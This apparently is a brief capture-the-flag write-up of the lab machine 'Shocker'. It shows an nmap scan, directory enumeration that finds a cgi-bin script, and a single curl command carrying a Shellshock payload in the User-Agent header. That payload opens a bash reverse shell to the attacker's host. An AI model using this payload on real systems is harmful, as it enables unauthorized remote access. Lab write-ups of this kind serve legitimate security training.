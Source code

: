 # shocker

## nmap scan
```log
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-15 05:50 EDT
Nmap scan report for 10.10.10.56
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   123.93 ms 10.10.16.1
2   206.08 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.51 seconds

```


## web page
<p align="center">
  <img  src="Pasted image 20210715105154.png">
</p>
![screen](Pasted image 20210715105217.png)

## directory enumeration
![screen](Pasted image 20210715122218.png)

Found a `cgi-bin` folder, maybe its vulnerable to shellshock
('maybe' ? its literally the name of the machine `shock`)

anyway let's enumerate the files insides the folder.

![screen](Pasted image 20210715122453.png)
Found `user.sh` file, let's exploit it

The command I used:
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.63/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
```

Got the shell :
![screen](Pasted image 20210715122748.png)

## Privilege escalation
### shell stabilization
![screen](Pasted image 20210715123008.png)
![screen](Pasted image 20210715123130.png)
